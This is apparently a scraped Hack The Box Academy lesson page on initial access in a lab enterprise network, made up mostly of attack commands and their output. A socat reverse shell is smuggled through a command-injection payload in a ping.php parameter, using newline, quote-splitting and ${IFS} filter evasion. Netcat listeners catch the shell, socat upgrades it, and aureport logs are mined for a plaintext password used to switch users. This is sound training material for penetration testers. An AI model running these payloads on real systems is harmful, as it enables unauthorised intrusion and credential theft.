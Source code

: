 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/163/section/1546
// Platform Version: V1
// Module ID: 163
// Module Name: Attacking Enterprise Networks
// Module Difficulty: Medium
// Section ID: 1546
// Section Title: Initial Access
// Page Title: Hack The Box - Academy
// Page Number: 06
-->

# Initial Access

**Module Name:** Attacking Enterprise Networks **Page Number:** 06

#### 

#### ATTACKING ENTERPRISE NETWORKS

# Initial Access

## Getting a Reverse Shell

``` shell-session
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

``` shell-session
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Referer: http://monitoring.inlanefreight.local/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntpou9fdf13i90mju7lcrp3f06
Connection: close
```

``` shell-session
[!bash!]$ nc -nvlp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 51496
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

``` shell-session
[!bash!]$ socat file:`tty`,raw,echo=0 tcp-listen:4443
```

``` shell-session
[!bash!]$ nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

``` shell-session
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
webdev@dmz01:/var/www/html/monitoring$
```

``` shell-session
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

``` shell-session
webdev@dmz01:/var/www/html/monitoring$ su srvadm

Password: 
$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ /bin/bash -i

srvadm@dmz01:/var/www/html/monitoring$
```

# 

# 

#### Questions

####
